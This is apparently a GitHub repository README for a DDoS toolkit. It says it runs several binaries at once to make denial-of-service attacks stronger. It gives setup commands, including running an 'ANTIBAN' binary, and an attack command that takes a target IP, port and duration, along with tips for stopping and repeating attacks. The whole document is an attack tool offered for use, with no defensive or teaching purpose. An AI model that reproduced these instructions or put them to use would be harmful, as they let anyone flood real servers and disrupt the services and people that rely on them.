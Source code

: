 #####################################################

This Reposetory will help you to run all the binary files at once and your ddos atk more powerfull.

### HOW TO USE ###
### RUN THESE COMMAND'S AT FIRST ###

pip install telebot
chmod +x *
./ANTIBAN

### NOW TO ATTACK JUST USE THIS COMMAND ###

./FUCK <IP> <PORT> <TIME>

### TO STOP ATTACK JUST HIT (CTRL+Z) ###
### TO SEND PREVIOUS ATTACK AGAIN ###

CLICK ARROW UP KEY + ENTER

#######################################################
